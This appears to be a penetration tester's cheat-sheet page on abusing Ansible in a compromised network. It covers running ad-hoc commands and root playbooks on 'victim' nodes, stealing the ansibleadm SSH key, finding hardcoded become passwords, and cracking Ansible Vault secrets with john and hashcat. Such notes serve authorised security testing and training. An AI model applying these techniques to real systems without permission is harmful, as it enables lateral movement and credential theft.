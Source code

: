 
We can execute the commands from controller on nodes either by Ad-hoc command or by playbooks.

Ad-hoc command on the victims (defined in the **/etc/ansible/hosts**) group, we need to run as ansibleadm:
#cmd-exec #ansible 
```bash
ansible victims -a "whoami"
```
we can use **--become** to run as **root** or provided any username to become to run as user.

##### Ansible Playbooks - Yaml

We can also run the playbooks to execute the shell command:
#cmd-exec #yaml #ansible 

```yaml
---
- name: RunCmd
  hosts: all
  gather_facts: true
  become: yes
  tasks:
    - name: Run command
      shell: id
      async: 10 
      poll: 0



# ansible-playbook runcommand.yml 
# you can do hosts: all or specific host e.g. hosts: linuxvictim
# we can steal ansibleadm ssh key and login to node directly.
```


But if we are not root or ansibleadm, we must search for the **hardcoded passwords** on world readable folders. In the playbooks, **ansible_become_pass** stores the **ssh password**, however there might be also passwords in the env vars or in the shell commands inline. 

We have also something called Ansible_Vault. We can crack this value offline:
#creds-leak 

```yaml
# test.yml
$ANSIBLE_VAULT;1.1;AES256
39363631613935326235383232616639613231303638653761666165336131313965663033313232
3736626166356263323964366533656633313230323964300a323838373031393362316534343863
36623435623638373636626237333163336263623737383532663763613534313134643730643532
3132313130313534300a383762366333303666363165383962356335383662643765313832663238
3036

# python2 /usr/share/john/ansible2john.py test.yml >test.john
# then either:
# john test.john --show
# or copy the part after filename to new file and run hashcat
# hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
#
# once we have the password we copy the same vault encrypted value to the disk and run the:
# cat pw.txt | ansible-vault decrypt
```
